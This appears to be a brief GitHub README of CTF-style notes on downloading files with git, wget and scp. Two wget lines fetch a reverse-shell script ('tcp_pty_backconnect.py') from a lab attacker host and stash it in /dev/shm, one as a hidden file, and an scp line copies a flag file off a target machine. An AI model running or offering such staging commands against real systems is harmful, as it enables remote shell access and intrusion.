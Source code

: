 <h1>$${\color{blue}dowmload}\space {\color{blue}files }$$</h1>



## 1.git usage:

```
git clone + "link of tool"               to download tools for github.
```

## 2.wget usage:

```
wget https://i.gifer.com/HU6r.gif             to download images or gif.
```

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
```

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
```


## 3.scp usages:

```
scp example@target-ip:/home/mohame/flag.txt ~/home               to downlaod files from machiens.
```







